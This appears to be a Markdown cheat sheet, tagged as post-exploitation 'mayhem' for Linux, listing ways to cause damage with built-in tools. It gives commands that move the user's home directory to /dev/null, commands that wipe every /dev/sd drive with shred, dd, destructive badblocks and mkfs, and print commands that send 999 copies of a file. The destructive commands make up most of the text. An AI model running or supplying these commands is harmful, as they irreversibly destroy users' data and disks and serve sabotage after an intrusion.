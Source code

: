 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - miscellaneous
  - mayhem
  - living-off-the-land
  - linux
---
```

# Living off the Land

## 01 - Erase User's `$HOME` Directory

```
$ mv ~ /dev/null

$ mv $HOME /dev/null

$ mv /home/$USER /dev/null
```

## 02 - Wipe Format Drive

```
# hdparm -I /dev/sd[a-z]

# shred -n 5 -vz --random-source=/dev/urandom /dev/sd[a-z]

# dd if=/dev/zero of=/dev/sd[a-z] bs=4096 status=progress

# dd if=/dev/zero of=/dev/sd[a-z] bs=1M conv=fsync && sync

# dd if=/dev/urandom of=/dev/sd[a-z] bs=4096 iflag=fullblock status=progress

# badblocks -wsvf /dev/sd[a-z]

# mkfs.ext4 /dev/sd[a-z][0-9]
```

## 03 - Print Files

Start CUPS service.

```
$ sudo systemctl start cups
```

Convert PDF file to Postscript.

```
$ pdf2ps file.pdf file.ps
```

Set default printer device.

```
$ lpoptions -d <printer_name> -l
```

Set default printer device and print A4 size paper.

```
$ lpoptions -d <printer_name> -o PageSize="A4"
```

Print files

```
$ lp -d <printer_name> -n 999 file.ps

$ lp -d <printer_name> -n 999 file.txt

$ lpr -P <printer_name> file.ps

$ pr -l 60 file.txt | lpr
```